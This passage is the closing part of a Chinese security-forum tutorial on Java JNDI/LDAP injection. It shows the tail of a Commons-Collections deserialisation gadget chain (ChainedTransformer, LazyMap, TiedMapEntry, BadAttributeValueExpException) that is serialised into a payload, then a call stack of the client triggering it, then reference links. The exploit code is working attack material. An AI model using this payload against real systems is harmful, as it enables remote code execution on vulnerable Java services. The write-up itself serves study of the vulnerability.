 ```php
            };

            ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
            Map map=new HashMap();
            Map lazyMap=LazyMap.decorate(map,chainedTransformer);
            TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
            BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
            Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(badAttributeValueExpException,tiedMapEntry);

            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            return byteArrayOutputStream.toByteArray();
        }

}
```

客户端尝试触发，效果如下图

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-b84f24b761213fa4afd8f3aa6473492d7c1ec0ea.png)

调用栈如下

```php
deserializeObject:532, Obj (com.sun.jndi.ldap)
decodeReference:478, Obj (com.sun.jndi.ldap)
decodeObject:251, Obj (com.sun.jndi.ldap)
c_lookup:1051, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:9, JNDIClient (org.example)
```

参考链接

```php
https://www.veracode.com/blog/research/exploiting-jndi-injections-java
https://xz.aliyun.com/t/8214#toc-3
https://www.bilibili.com/video/BV1P54y1Z7Lf/
```